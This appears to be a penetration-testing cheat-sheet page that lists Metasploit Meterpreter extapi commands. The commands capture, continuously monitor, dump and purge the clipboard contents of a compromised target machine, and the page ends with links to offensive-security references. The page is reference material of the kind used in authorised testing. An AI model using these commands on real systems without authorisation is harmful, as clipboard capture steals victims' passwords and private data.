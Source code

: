 # Clipboards

Load the `meterpreter` extension.

```
meterpreter > load extapi
```

Collect clipboard from the target's machine from text, files, and images.

```
meterpeter > clipboard_get_data
```

Begin monitoring the target's clipboard.

```
meterpeter > clipboard_monitor_start
```

Dump all the captured clipboard content during monitoring.

```
meterpeter > clipboard_monitor_dump
```

Pause the clipboard monitoring

```
meterpeter > clipboard_monitor_pause
```

Resume the clipboard monitoring

```
meterpeter > clipboard_monitor_resume
```

Delete all the captured clipboard content without dumping.

```
meterpeter > clipboard_monitor_purge
```

Halt monitoring the target's clipboard.

```
meterpeter > clipboard_monitor_stop
```

---
## References

### Hacktricks

- [Hacktricks: Linux Hardening Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester - Clipboard](https://www.hackingarticles.in/metasploit-for-pentester-clipboard/)